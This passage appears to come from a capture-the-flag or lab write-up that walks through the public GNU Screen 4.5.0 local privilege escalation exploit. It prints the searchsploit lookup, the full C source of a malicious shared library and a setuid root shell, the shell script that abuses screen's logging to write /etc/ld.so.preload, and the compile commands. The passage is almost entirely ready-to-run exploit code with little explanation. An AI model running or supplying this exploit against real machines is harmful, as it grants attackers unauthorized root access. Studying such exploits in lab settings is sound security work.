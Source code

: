 Here is an exploit I found on searchsploit.
```bash
$searchsploit screen 4.5.0
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                        | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                  | linux/local/41152.txt
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
The exploit has 3 steps. Two compile and one is exploit.

The files are

### 1. libhax.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

### 2. rootshell.c

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

### 3. 41154.sh
```bash
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```
Run libhax.c and rootshell.c on local machine
```bash
$gcc -fPIC -shared -ldl -o libhax.so libhax.c
libhax.c: In function ‘dropshell’:
libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
    7 |     chmod("/tmp/rootshell", 04755);
      |     ^~~~~
$gcc -o rootshell rootshell.c
```